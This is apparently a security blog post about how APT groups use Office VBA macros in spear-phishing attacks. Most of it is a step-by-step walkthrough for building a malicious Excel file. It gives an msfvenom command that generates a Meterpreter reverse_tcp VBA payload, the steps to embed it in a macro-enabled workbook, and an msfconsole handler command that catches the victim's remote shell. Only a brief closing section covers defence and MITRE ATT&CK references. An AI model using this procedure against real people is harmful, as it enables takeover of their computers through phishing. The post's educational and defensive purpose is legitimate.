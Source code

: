 ![](https://miro.medium.com/max/1400/0*iwl-kGvpEXgGJgj6.jpg)

In recent years, a new technique has been discovered by threat researchers that are being used by various APTs such as FIN7, BlackEnergy and APT37.

An advanced persistent threat (APT) is a prolonged, targeted cyberattack in which an attacker gains access to a network and remains undetected for an extended period of time. APT attacks are initiated to steal data rather than damage the target organization’s network.

The technique takes advantage of a feature in Office 365 that allows execution of Visual Basic for Applications (VBA) code through macros. This technique can be applied to Word, Excel, PowerPoint and other files. The attacks take place through a malicious campaign, using the spear phishing attack.

Spear phishing is a type of phishing campaign that targets a specific person or group and usually includes information known to be of interest to the target, such as current events or financial documents.

Attacks are typically done via email, where a malicious group sends a large scale of messages to every email address collected about a corporation. Attached to these emails, there is a file that contains malicious VBA code, it can be a spreadsheet or even slides. After a user opens the file, he will receive an alert to allow the macro to be activated, if he allows, the code execution will be successful, infecting the user’s computer.

## Creating a Malicious Spreadsheet

Let’s start by creating a Microsoft Excel spreadsheet and let’s open it.

![](https://miro.medium.com/max/640/1*T_brEIgAbDJVkNgkqVrHtw.png)

To create the macro, go to View > Macros > View Macros.

![](https://miro.medium.com/max/828/1*7I2PbzA1eRqG82zfyc-snQ.png)

Afterwards, type a name for the macro and click create.

![](https://miro.medium.com/max/640/1*loX4KRx5O5aQwar7DTX19A.png)

![](https://miro.medium.com/max/828/1*nz5VMhtvd_hH2rD4wshwUA.png)

Now we need to create the VBA malicious code, for that I will use the metasploit tool to generate and do all the communication between the attacker’s and the victim’s machine.

Let’s generate a VBA payload:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP/HOST> LPORT=<PORT> -f vba
```

![](https://miro.medium.com/max/828/1*1UuMyy3Kxv8FjHkkVgPmgA.png)

After the payload has been generated, copy and paste it into the macro module.

![](https://miro.medium.com/max/828/1*P8b9eBK0ZzUuX8SPipLV9w.png)

After placing the payload, save the file by clicking on the icon above in the right corner.

![](https://miro.medium.com/max/828/1*T76D0oThgn_dbjmAuFUhKw.png)

When you get a message box, click no button and select excel format with macro support and save the file.

![](https://miro.medium.com/max/828/1*AcqgLSeGyhqj3y-uxdTOVw.png)

![](https://miro.medium.com/max/828/1*7CcaSwTBczqwfgc9OpjPMw.png)

When finished, close Microsoft Excel and notice the difference between the two files.

![](https://miro.medium.com/max/550/1*xQErf2fQSJ4bRJvn3ackGg.png)

On the attacker’s machine, start listening for metasploit with the following commands:

```
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost <IP/HOST>;set lport <PORT>;run"
```

After listening is enabled, open the malicious file and accept the risk of running the macro.

![](https://miro.medium.com/max/828/1*yI2fl4CnDtHV20H960_AOw.png)

![](https://miro.medium.com/max/828/1*VPqlcsIDWzvV_-jNF2PUhg.png)

The connection was made and the user’s machine was successfully taken over.

## Recommendations

To stop this problem, a good Endpoint Detection and Response (EDR) on the infrastructure is a great solution, as it will protect your network from any suspicious movement and will alert you. Also disable Office add-ins, to block any execution of macros injected into a file.

## Conclusion

This article demonstrates a new technique used by APTs around the world. It is important to note that these attacks often have messages telling you to allow the macro to run, as if it were something legitimate. The new technique was defined as Office Application Startup: Office Template Macros by MITER ATT&CK, with the persistence tactic, and the ID was identified as T1137.001.

## References

* https://attack.mitre.org/techniques/T1137/001/
* https://securelist.com/blackenergy-apt-attacks-in-ukraine-employ-spearphishing-with-word-documents/73440/
* https://digital.nhs.uk/cyber-alerts/2017/cc-1707
* https://www.malwarebytes.com/blog/news/2021/01/retrohunting-apt37-north-korean-apt-used-vba-self-decode-technique-to-inject-rokrat
